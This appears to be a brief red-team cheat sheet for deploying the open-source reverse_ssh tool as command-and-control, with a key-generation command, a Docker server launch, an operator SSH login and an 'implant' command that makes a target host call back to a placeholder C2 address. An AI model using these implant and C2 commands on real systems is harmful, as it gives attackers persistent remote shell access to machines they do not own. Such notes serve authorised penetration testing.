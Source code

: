 # Reverse SSH

## Setup

### Generate SSH Key

```
$ ssh-keygen -qt rsa -b 4096 -f id_rsa -C '' -N ''
```

### Server

#### Docker Setup

```
$ docker run -p 3232:2222 -e EXTERNAL_ADDRESS=<C2_IP>:3232 -e SEED_AUTHORIZED_KEYS="$(cat ~/.ssh/id_ed25519.pub)" -v ./data:/data reversessh/reverse_ssh
```

#### Compile From Source

TODO: Fill in this info

```
$ git clone https://github.com/NHAS/reverse_ssh.git

$ server
```

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Implant

```
> client -d <C2_IP>:3232
```

---
## References

- [Reverse SSH](https://github.com/NHAS/reverse_ssh)